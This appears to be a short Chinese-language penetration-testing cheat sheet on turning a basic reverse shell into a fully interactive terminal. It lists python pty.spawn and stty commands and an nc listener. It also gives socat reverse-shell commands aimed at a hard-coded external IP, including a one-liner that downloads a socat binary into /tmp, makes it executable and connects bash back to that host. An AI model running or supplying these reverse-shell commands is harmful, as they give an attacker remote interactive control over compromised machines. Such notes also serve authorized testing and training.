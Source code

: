 ```yaml
---
title: 提升为完全交互式的shell
date: 2024-01-12 21:28:52
tags:
---
```

## 有python

## Python

提升为完全交互式终端

```python
#检测python版本
which python python2 python3

# 提升为半交互式终端
python -c 'import pty;pty.spawn("/bin/bash")' && export SHELL=bash && export TERM=xterm-256color

# python3/python2
python3 -c 'import pty;pty.spawn("/bin/bash")' && export SHELL=bash && export TERM=xterm-256color

python2 -c 'import pty;pty.spawn("/bin/bash")' && export SHELL=sh && export TERM=xterm-256color
 ​  
# 将shell发送到后台  
Ctrl+Z

# 设置 shell 以通过反向 shell 发送控制字符和其他原始输入, 最终为完全交互式. 
stty raw -echo;fg
 ​  
# 上面两步可以直接用下方监听代替(解决键盘输入，如上下左右等)
rlwrap nc -lvnp 8888
```

## 无python(Socat)

Socat交互式：

监听
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
nc -lvvp 8888也可以，但是只能半交互式
```

反弹
```
socat TCP:139.159.221.73:8888 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

一键反弹（远程下载socat,要求能访问github,或者自行python开启http）
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:139.159.221.73:8888
```

